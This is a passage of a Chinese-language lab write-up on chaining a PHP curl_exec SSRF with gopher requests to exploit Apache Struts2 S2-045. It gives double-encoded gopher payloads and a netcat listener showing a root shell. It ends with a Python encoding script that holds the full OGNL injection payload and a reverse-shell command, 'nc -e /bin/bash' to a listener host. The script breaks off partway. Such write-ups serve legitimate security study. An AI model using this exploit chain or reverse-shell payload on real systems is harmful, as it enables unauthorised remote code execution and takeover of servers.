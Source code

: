 - PHP的curl_exec函数没有发起gopher的请求（这个问题上面已经说过）
- gopher一直请求不到目标页面

根据我的试错经历，我梳理了下如何一步步的完成gopher请求获取shell。<br />首先我们先做一些简单的事情，顺序如下：

1. 使用ssrf漏洞发起gopher请求，访问前面用到的get.php
1. 使用ssrf漏洞发起gopher请求，获取struts2主机的shell

**第一步**：<br />准备好访问get.php的数据包（**照搬的本文开始的包**）
```http
gopher://192.168.0.109:80/_GET%20/ssrf/base/get.php%3fname=Margin%20HTTP/1.1%0d%0AHost:%20192.168.0.109%0d%0A
```
那我们现在是否可以这样来组成我们的URL？
```http
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.109:80/_GET%20/ssrf/base/get.php%3fname=Margin%20HTTP/1.1%0d%0AHost:%20192.168.0.109%0d%0A
```
我们来测试下，结果如下：<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624628998687-54fa0449-5416-4048-ad52-696f640d2836.png#align=left&display=inline&height=151&id=ufa816635&margin=%5Bobject%20Object%5D&name=image.png&originHeight=151&originWidth=2243&size=111812&status=done&style=none&width=2243)<br />发现并没有出现get页面的hello Margin，说明请求失败，这个地方卡了一会，发现是因为在PHP在接收到参数后会做一次URL的解码，正如我们上图所看到的，%20等字符已经被转码为空格。所以，curl_exec在发起gopher时用的就是没有进行URL编码的值，就导致了现在的情况，所以我们要进行二次URL编码。编码结果如下：
```http
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher%3A%2F%2F192.168.0.109%3A80%2F_GET%2520%2Fssrf%2Fbase%2Fget.php%253fname%3DMargin%2520HTTP%2F1.1%250d%250AHost%3A%2520192.168.0.109%250d%250A
```
此时发起请求，得到如下结果：<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624629042684-80911512-fba1-4f86-aec4-9ec7195b50fd.png#align=left&display=inline&height=166&id=u7602c9d5&margin=%5Bobject%20Object%5D&name=image.png&originHeight=166&originWidth=2243&size=189656&status=done&style=none&width=2243)<br />发现已经正常，此时便说明我们的环境没有问题，SSRF漏洞利用正常，开始接下来的步骤。<br />**第二步**：<br />准备好struts2-045漏洞的利用代码，并进行二次编码，需要注意的是Content-Type中放了主要的漏洞利用代码，并且特殊字符多，将其单独进行编码，步骤如下：

1. 将gopher协议一直到Content-Type进行二次编码
1. 将Content-Type的值所有字符进行URL二次编码<br />最终得到如下结果(太长，不列中间内容，省略部分为Content-type内容)：
```http
gopher%3A%2F%2F192.168.0.119%3A8080%2F_GET%2520%2FS2-045%2F%2520HTTP%2F1.1%250d%250aHost%3A192.168.0.119%250d%250aContent-Type%3A ......... %0d%0a
```
最终可以获取shell，结果如下：
```bash
margine:~ margin$ nc -l 6666
id
uid=0(root) gid=0(root) groups=0(root)
```
**在试错的过程中发现：URL中的／不能进行两次编码，端口号不可以两次编码,协议名称不可两次转码**

最后附上编码脚本（python2.7）：
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib

url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
header = """gopher://192.168.0.119:8080/_GET /S2-045/ HTTP/1.1
Host:192.168.0.119
Content-Type:"""
cmd = "nc -e /bin/bash 192.168.0.109 6666"
content_type = """%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"""+cmd+"""').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"""
header_encoder = ""
```